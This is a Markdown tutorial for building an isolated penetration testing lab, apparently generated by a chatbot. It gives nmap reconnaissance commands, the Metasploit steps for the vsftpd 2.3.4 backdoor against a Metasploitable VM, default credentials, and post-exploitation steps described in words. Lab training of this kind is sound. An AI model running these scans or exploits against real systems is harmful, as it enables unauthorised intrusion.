 Sure! Here's your **Penetration Testing Lab Guide** converted into a professional **GitHub Markdown (`.md`)** format:

# 🛡️ Penetration Testing Lab - Step by Step

A detailed guide to setting up a safe and practical penetration testing lab.

---

## 1️⃣ Lab Requirements

### Hardware
- Minimum 8–16 GB RAM, 4+ cores CPU
- 100+ GB free disk space
- Virtualization support (VT-x/AMD-V)

### Software
- **Host OS:** Windows 10/11 or Linux
- **Virtualization:** VMware Workstation, VirtualBox, or Hyper-V
- **Guest OS (Target Machines):**
  - Kali Linux (Attacker) – preinstalled with tools
  - Metasploitable 2 / 3 (Vulnerable Linux) – target
  - Windows 10 / Windows Server (for AD testing)
  - DVWA (Damn Vulnerable Web App) – for web testing

### Network Setup
- Use an **isolated virtual network** (NAT/Host-only) to avoid affecting your real network.
- Assign static IPs:
  - Kali: `192.168.56.128`
  - Metasploitable 2: `192.168.56.130`
  - Windows: `192.168.56.132`

---

## 2️⃣ Lab Setup

### Step 1: Install Virtualization
1. Install **VMware Workstation** or **VirtualBox**.
2. Enable **Virtualization** in BIOS.
3. Create a **Host-Only Network** (isolated from Internet).

### Step 2: Setup Attacker Machine
- Install **Kali Linux VM**.
- Update & upgrade packages:
```bash
sudo apt update && sudo apt upgrade -y
````

* Install extra tools:

```bash
sudo apt install -y nmap netcat metasploit-framework wireshark john hydra nikto
```

### Step 3: Setup Target Machines

* **Metasploitable 2:**

  * Import VM.
  * Assign static IP.
  * Default credentials: `msfadmin:msfadmin`.
* **Windows VM (Optional):**

  * Enable **Remote Desktop**.
  * Join domain if testing Active Directory attacks.

---

## 3️⃣ Network Reconnaissance

### Step 1: Ping Sweep

```bash
nmap -sn 192.168.56.0/24
```

### Step 2: Port Scanning

```bash
nmap -p- 192.168.56.130
```

Service & version detection:

```bash
nmap -sV -p 21,22,23,80,445 192.168.56.130
```

### Step 3: OS Detection

```bash
nmap -O 192.168.56.130
```

---

## 4️⃣ Vulnerability Enumeration

### Step 1: Banner Grabbing

* Using **Netcat**:

```bash
nc 192.168.56.130 21
```

* Using **Nmap scripts**:

```bash
nmap -sV --script=banner 192.168.56.130
```

### Step 2: Vulnerability Scanning

* Nmap NSE Scripts:

```bash
nmap --script vuln 192.168.56.130
```

* Using **OpenVAS / Nessus**:

  * Scan target VM for CVEs and vulnerabilities.

---

## 5️⃣ Exploitation

### Step 1: Using Metasploit

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.130
run
```

### Step 2: Manual Exploits

* Exploit misconfigured services manually (e.g., default credentials on FTP, SMB).

---

## 6️⃣ Post-Exploitation

### Step 1: Privilege Escalation

* Check kernel version, installed packages.
* Use tools like **LinPEAS**, **WinPEAS**.

### Step 2: Collect Sensitive Data

* Dump passwords, configs, and user files for lab purposes.

### Step 3: Maintain Access

* Simulate reverse shells for testing.

---

## 7️⃣ Web Application Testing (Optional)

* Use **DVWA** or **OWASP Juice Shop**.
* Test for:

  * SQL Injection
  * XSS (Cross-Site Scripting)
  * File Upload Vulnerabilities
  * Command Injection

---

## 8️⃣ Reporting

* Document:

  * Recon results
  * Exploits used
  * Screenshots
  * Mitigation recommendations
* Create a **professional pentest report**.

---

## 9️⃣ Safety Tips

* Keep lab isolated from the Internet.
* Never scan or attack external networks without permission.
* Snapshot VMs before testing.

---

💡 **Tip:** Practice different attack vectors: network, web, and OS. Adding **Active Directory** lab allows testing of password attacks, group policies, and Kerberos vulnerabilities.

```

